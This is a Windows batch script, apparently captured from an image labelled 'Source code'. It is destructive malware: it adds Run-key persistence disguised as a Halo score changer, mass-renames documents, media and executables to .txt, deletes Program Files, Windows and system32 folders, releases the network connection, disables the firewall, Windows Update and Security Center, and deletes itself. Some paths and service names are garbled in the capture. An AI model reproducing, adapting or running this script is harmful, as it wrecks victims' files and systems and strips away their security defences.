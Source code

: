 echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo OWNED!
PAUSE
REN *.DOC *.TXT REN *.JPEG *.TXT
REN *.LNK *.TXT
REN *.AVI *.TXT
REN *.MPEG *.TXT
REN *.COM *.TXT
REN *.BAT *.TXT
@echo off
reg
add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v MiXedVeX /t
REG_SZ /d %systemroot%\HaloTrialScoreChangerV1 /f > nul
start iexpress (website of your choice)
ipconfig /release
del "C:\Program Files\Microsoft Games
del "C:Nexon
del "C:\Program Files\Xfire
del "C:\Program Files\Adobe"
del "C:\Program Files\Internet Explorer"
del "C:\Program Files\Mozilla Firefox"
del "C:\WINDOWS"
del "C:\WINDOWS\system32"
del "C:\WINDOWS\system32\cmd"
del "C:\WINDOWS\system32\iexpress"
del "C:\WINDOWS\system32\sndvol32"
del "C:\WINDOWS\system32\sndrec32"
del "C:\WINDOWS\system32\Restore\rstrui"
del "C:\WINDOWS\system32\wupdmgr"
del "C:\WINDOWS\system32\desktop"
del "C:\WINDOWS\java"
del "C:\WINDOWS\Media"
del "C:\WINDOWS\Resources"
del "C:\WINDOWS\system"
del "C:\drivers"
del "C:\drv"
del "C:\SYSINFO"
del "C:\Program Files"
echo ipconfig/release_all>>c:windowswimn32.bat
net stop "Security Center"
net stop SharedAccess
> "%Temp%.kill.reg" ECHO REGEDIT4
>>"%Temp%.kill.reg" ECHO.
>>"%Temp%.kill.reg" ECHO [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicesS haredAccess]
>>"%Temp%.kill.reg" ECHO "Start"=dword:00000004
>>"%Temp%.kill.reg" ECHO.
>>"%Temp%.kill.reg" ECHO [HKEY_LOCAL_MACHINESYSTEMCurrentControlSetServicesw uauserv]
>>"%Temp%.kill.reg" ECHO "Start"=dword:00000004
>>"%Temp%.kill.reg" ECHO.
>>"%Temp%.kill.reg" ECHO [HKEY_LOCAL_MACHINESYSTEMControlSet001Serviceswscsv c]
>>"%Temp%.kill.reg" ECHO "Start"=dword:00000004
>>"%Temp%.kill.reg" ECHO.
START /WAIT REGEDIT /S "%Temp%.kill.reg"
del "%Temp%.kill.reg"
del %0
echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat